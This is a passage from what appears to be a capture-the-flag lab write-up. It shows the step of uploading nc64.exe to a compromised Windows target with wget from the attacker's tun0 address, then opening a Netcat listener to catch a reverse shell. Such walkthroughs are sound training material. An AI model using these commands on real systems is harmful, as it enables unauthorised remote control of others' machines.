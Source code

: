 Now in the `SSH` tab, type:

```
wget http://{your tun0 ip}/nc64.exe -outfile nc64.exe
```

Specifying the port isn't necessary.

If you don't know your tun0 ip address use `ip a | grep tun0` or `ifconfig`.

File should be uploaded.

![reverseshell](./Screenshots/markupshell3.png)

Server confirms that everything went fine.

![reverseshell](./Screenshots/markupshell4.png)

### Netcat

Now is finally time to execute the `nc64.exe` file in our target system for the `reverse shell`.

To do that we have to set up `Netcat` listener on our system.

Type in new tab:

```
nc -lvnp {port of your choice}
```

![Netcat](./Screenshots/markupnetcat.png)

